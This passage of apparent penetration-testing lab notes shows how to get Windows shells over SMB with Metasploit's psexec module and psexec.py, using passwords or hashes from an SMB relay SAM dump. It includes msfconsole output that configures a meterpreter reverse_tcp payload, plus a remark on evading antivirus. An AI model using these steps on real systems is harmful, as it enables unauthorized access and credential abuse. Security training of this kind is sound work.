 1. We can get shell using a password and a username 

![](https://i.imgur.com/NZjEBIr.png)

2. We can gain shell access with the SAM dumped hash we got from the smb relay attack

![](https://i.imgur.com/wWJPEWY.png)

> Metasploit is mostly noisy which might get picked up by an antivirus, that is why we have other tools like `psexec.py` which is a little bit noisy
> 

1. Same as we can gain access with password and usernames using metasploit, we can use `psexec.py`

![](https://i.imgur.com/RrMmz5y.png)

2. We can also get shell though hashes

![](https://i.imgur.com/FqMWCNX.png)

# Practical

1. Metasploit

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ msfconsole
[*] Starting the Metasploit FraMework console...%

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.157    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```



